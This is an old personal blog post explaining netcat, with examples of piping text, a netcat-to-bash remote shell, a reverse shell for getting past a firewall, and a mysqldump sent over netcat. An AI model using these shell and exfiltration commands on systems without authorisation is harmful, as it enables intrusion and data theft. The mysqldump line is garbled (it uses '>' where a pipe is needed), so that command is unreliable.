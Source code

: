 ```yaml
---
layout: post
title: Netcat a powerfool tool (2009)
category: Tools
tag: imported
author: adricnet
---
```

A fairly high level component to Unix and networking magicks. Not for the novice, much.

Netcat (<i>nc(1)</i>) is, as the name suggests, a version of <i>cat(1)</i> that works over network sockets.
In fact it is likely the lowest-level networking tool you are going find or be able to install without scripting one yourself. Netcat may either send to or listen on a port (on an IP/hostname) and then acts exactly like <i>cat(1)</i>.

So, rather than cat'ing a file from one folder to another, you cat a file (everything in Unix is a file, right?) to ... somewhere else.  In it's most basic form:

```
  lorelei-lee:~/Work/adricnet/trunk adric$ cat | nc localhost 33333

  foo #typed

  ^C punt!

  lorelei-lee:~/Desktop adric$ nc -l -p 33333

  foo #appears

  ^C punt!
```

Plenty more in the man page or on example pages that Google easily, and maybe here later (FIXME). I'm pretty sure there are IPv6 versions by now, although this one seems not to be. I'm equally certain it's available for [Windows], maybe even without [Cygwin] (LINKME).


<h2>Advanced Incantations</h2>

And as neat as it is to be able to simulate <i>talk(1)</i> without buffering or [Tar Over SSH] without security .. nc's
real utility is in it's ability to set up things that you might not have been to do otherwise. And thereby really blowing holes in lots of security models.

<h3>Reverse Shells</h3>

You can simulate a remote shell by piping nc to (eg) bash:

```
  lorelei-lee:~/Work/adricnet/trunk adric$ cat | nc localhost 33333

  ls #typed
```

and:

```

  lorelei-lee:~/Desktop adric$ nc -l -p 33333 | bash

  #output here:

  Etch SE                                 Syllable
  Icon?                                   Syllable 0.6.4
  OpenSolaris                             WinXP
  Project LRNJ- Classic Hiragana Dream    bugg
  Project LRNJ- Slime Forest              evo
  ^C 
  punt!
```

Frighteningly enough it works the other way too. Lets say you have the ability to execute commands on the server, but you can't receive connections there because of some firewall.  Just switch it about. Timing is a little tricky, so listen first:

```
  client# nc -l -p 33333
  
  server$ nc localhost 33333 | bash
  
  #then commands typed on client 
  
  id
  
  uptime
  
  #are executed and output on the server:
  
  uid=501(adric) gid=501(adric) groups=501(adric), 81(appserveradm), 79(appserverusr), 80(admin)

  11:37  up 19 days,  2:44, 4 users, load averages: 1.20 1.25 1.26
```

<h3>Reverse MySQL Dump</h3>

Once upon a time I was transferring customer SQL data from one server to another. Thing was, there was not enough diskspace free on the old server to <i>mysqldump(1)</i> out the gibibytes of stuff. and, mysql was configured to disallow remote acces by any user we had access to use. So, at the suggestion of a local wizard, we set up a reverse mysqldump with netcat, dumping from mysqldump straight to nc and across the wire (and the country, of course).

```
  client# nc -l -p 33333 > sqldump.sql

  server$ mysqldump -u root -p --databases > nc localhost 33333
```

The wizard actually recommends piping a 'gzip' in the midst for compression if it's going to be much data.

<h2>Refs</h2>

Netcat and Reverse Telnet on O'Reily Network:
http://www.onlamp.com/pub/a/onlamp/2003/05/29/netcat.html
